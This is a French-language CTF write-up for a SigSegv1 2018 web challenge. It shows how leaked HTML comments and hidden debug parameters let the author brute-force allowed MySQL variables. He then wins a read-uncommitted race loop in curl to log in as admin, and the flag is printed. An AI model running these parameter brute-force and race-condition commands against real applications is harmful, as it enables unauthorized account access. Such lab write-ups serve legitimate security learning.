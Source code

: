 #  SigSegv1 CTF 2018

**Category:** Misc/Web |
**Points:** 500 |
**Solves:** 1 |
**Description:**

> LOL mon pote dit qu'il peut se connecter en tant qu'admin sur mon app.
> Je le crois pas, mais avant d'accepter son challenge, est-ce que tu peux vérifier que c'est bon stp ?

___

## TL;DR


The game. Si t'as pas le temps de lire, reviens demain.

## WRITE-UP

* __Première étape__ : découvrir le chall.

Tout d'abord, on voit que le challenge possède seulement 2 pages:<br>
\- Une page de création de compte (`/signUp`),<br>
\- Une page de login (`/signIn`).

Premier test que j'ai fait : essayer de créer un compte :

```
>>> curl -s http://localhost:8000/signUp -d 'inputName=admin&inputPassword=perte'
{"error": "(u'User creation has been disabled, changes have been canceled.',)"}
```

Well, la création d'utilisateur a été désactivée.
On se dit que le but, ça va être de faire en sorte de pouvoir créer l'utilisateur qu'on veut.


* __Deuxième étape__ : allumer son cerveau

En regardant un peu les deux pages, je vois des commentaires :

```
<!--
30/11/18 - added a stored procedure to add users

BEGIN
    IF (select exists (select 1 from tbl_user where login = p_login)) THEN
        select 'Username exists!';
    ELSE
        START TRANSACTION;
        insert into tbl_user
        (
            login,
            password
        )
        values
        (
            p_login,
            p_password
        );
    END IF;
END$$
DELIMITER ;

--------------------------------------------------------------------------------

01/12/18 - my friend told me not to store passwords as plaintext...
Removed everything from the database and disabled persistence of changes in db until I fix this.
-->


******************


<!--

30/11/18 - added secret form parameters debugVar and debugVal to help debug the app.

-->
```

Ici, il y a deux choses importantes :<br>
\- les 2 paramètres que l'on peut rajouter,<br>
\- le fait que l'admin a désactivé la persistance.

Le message est clair, il semblerait qu'il y ait un rollback qui soit fait.

En ayant ces informations, j'ai testé de faire une race condition en créant l'utilisateur `admin`,
puis me connecter directement juste après, avant que le rollback ne soit fait.
Mais dans ce cas, non seulement je ne me servais pas des paramètres donnés en commentaire, et puis
surtout ... ça ne fonctionnait pas :)




* __Troisième étape__ : utilisation des params + bruteforce

Ce step est assez simple.
J'ai récupéré une bonne partie des variables systèmes de MySQL : 
```
>>> curl -s 'https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html'\
| awk -F'[<>]' '/server-system.*class="literal/{!arr[$5]++}END{for (k in arr){print k}}' >> all_mysql_sysvar.lst
```

Ca fait une petite liste de presque 300 vars.
```
>>> curl -s http://localhost:8000/signIn -d 'inputName=admin&inputPassword=lel&debugVar=connect_timeout&debugVal=lel'
{"html": "<span>Forbidden variable name!</span>"}
```

Petite surprise, certaines sont interdites : j'ai donc "bruteforcé" pour connaître les vars autorisées.

```
>>> while read VAR; do curl -s http://localhost:8000/signIn -d "inputName=admin&inputPassword=lel&debugVar=$VAR&debugVal=lel" \
|grep -q Forbidden || echo $VAR ; done < all_mysql_sysvar.lst >> allowed_mysql_vars.lst
>>> wc -l allowed_mysql_vars.lst 
122 allowed_mysql_vars.lst
```

Bien, je me retrouve avec 122 variables à RTFM...
Avec l'idée du challenge, le `rollback`, ça permet de s'orienter vers certaines variables.


* __Dernière étape__ : payload + flag

Je vous invite à lire les liens suivants :
```
https://en.wikipedia.org/wiki/Isolation_(database_systems)
https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_transaction_isolation
https://inshallhack.org/production_debugging_sigsegv1_2018/
```

Le post de Siben sur inshallhack est génial, avec schématisation (wikipedia ©) des dirty reads.

Après avoir bien RTFM, il ne reste plus qu'à créer le payload.
Ce qu'il faut faire :<br>
\- Créer un user admin/admin,<br>
\- Instantanément, il faut directement faire lire à la DB les changements non commités :<br>
`transaction_isolation -> read-uncommitted`,<br>
\- Et on essaye de se connecter ensuite.

En BASH, ça donne simplement ça :

```
>>> while true ; do curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' & \
> curl -s 'http://localhost:8000/signIn' --data 'inputName=admin&inputPassword=admin&debugVar=transaction_isolation&debugVal=read-uncommitted' & \
> curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' ; done
```

Il suffit d'attendre un peu :

`{"gg": "GG! Flag: sigsegv{1s0l4t10n_mY_455}!"}`

* __Conclusion__ :

> Un superbe challenge !
> Personellement, j'avais jamais trop travaillé sur MySQL de façon approfondie, et j'ai appris
> énormément de choses sur le fonctionnement d'une DB (MySQL).
> Merci à toi SIben pour l'idée du challenge, de m'avoir fait confiance en me le faisant tester en
> "avant-première", avant qu'il soit push sur le SigSev1 CTF.
> Et surtout : the game.

Enjoy,<br>
\- [Notfound](https://twitter.com/Notfound404__)
